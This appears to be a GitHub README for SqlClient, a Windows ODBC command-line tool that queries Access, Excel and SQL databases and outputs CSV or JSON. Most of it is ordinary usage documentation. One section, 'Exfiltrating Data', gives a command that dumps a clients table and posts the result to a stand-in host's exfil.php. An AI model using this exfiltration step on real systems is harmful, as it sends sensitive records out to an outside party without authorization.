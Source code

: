﻿# SqlClient

## Usage
```
Usage: SqlClient.exe <options>
        Required
                -d, --driver    ODBC Driver
                -u, --username  username
                -p, --password  password
                -i, --host      the host name of the server
                -c, --catalog   The catalog or database
                -s, --sql       The sql statement to execute.

        Optional
                -f, --filter    Used with schema requests to filter by column or table.
                -o, --output    Output type: csv,json
                -e, --url       url where data will be posted
```

## Features

SqlClient uses the installed ODBC drivers on a system to query local or remote databases.  The application will attempt to detect if the selected ODBC driver is installed, if it is not found, the program will exit, otherwise, the SQL statement will be executed.

#### Architecture Notes

Windows maintains two sets of ODBC drivers, x86 and x64.  It is not possible to access an x86 ODBC driver from a x64 process and vice-versa.

### Supported Applications
- Access
- Excel
- Firebird
- MSSQL
- MySql
- Postgre

---

## Example Usage

### Access
pass in an empty string for username, password and host.  The -c switch should be the full path to the access database.
```
SqlClient.exe -d access -u "" -p "" -i "" -c "C:\path\to\folder\file.accdb" -s "select * from clients" -o json
```

### Excel
pass in an empty string for username, password and host.  The -c switch should be the full path to the excel spreadsheet.
```
SqlClient.exe -d excel -u "" -p "" -i "" -c "C:\path\to\folder\file.xlsx" -s "select * from [clients$]" -o json
```

### Postgre
```
SqlClient.exe -d postgresql -u postgres -p PASSWORD -i 127.0.0.1 -c somedb -s "select * from clients" -o csv
```

### Firebird
```
SqlClient.exe -d firebird -u SYSDBA -p masterkey -i 127.0.0.1 -c somedb -s "select * from clients" -o csv
```

### Mysql
```
SqlClient.exe -d mysql -u root -p PASSWORD -i 127.0.0.1 -c somedb -s "select * from clients" -o csv
```

### MSSQL
```
SqlClient.exe -d mssql -u root -p PASSWORD -i 127.0.0.1 -c somedb -s "select * from clients" -o csv
```

---
## Exfiltrating Data
It is possible to exfiltrate data using the -e switch.  This will result in an HTTP POST where the body of the post is the output of the query.
```
SqlClient.exe -d mssql -u root -p PASSWORD -i 127.0.0.1 -c somedb -s "select * from clients" -o csv -e http://domain.com/exfil.php
```
---

## Schema Sub-Commands

#### Get tables
```
SqlClient.exe -d excel -u "" -p "" -i "" -c "C:\path\to\folder\file.xlsx" -s "schema:tables" -o json
```
#### Get columns
```
SqlClient.exe -d excel -u "" -p "" -i "" -c "C:\path\to\folder\file.xlsx" -s "schema:columns" -o json
```
#### Filter schema using Linq .Select()
```
SqlClient.exe -d excel -u "" -p "" -i "" -c "C:\path\to\folder\file.xlsx" -s "schema:columns" -f "COLUMN_NAME = 'city'" -o json
```
##### Table fields
- TABLE_CAT
- TABLE_SCHEM
- TABLE_NAME
- COLUMN_NAME
- DATA_TYPE
- TYPE_NAME
- COLUMN_SIZE
- BUFFER_LENGTH
- DECIMAL_DIGITS
- NUM_PREC_RADIX
- NULLABLE
- REMARKS
- COLUMN_DEF
- SQL_DATA_TYPE
- SQL_DATETIME_SUB
- CHAR_OCTET_LENGTH
- ORDINAL_POSITION
- IS_NULLABLE
- ORDINAL

##### Column fields
- TABLE_CAT
- TABLE_SCHEM
- TABLE_NAME
- TABLE_TYPE
- REMARKS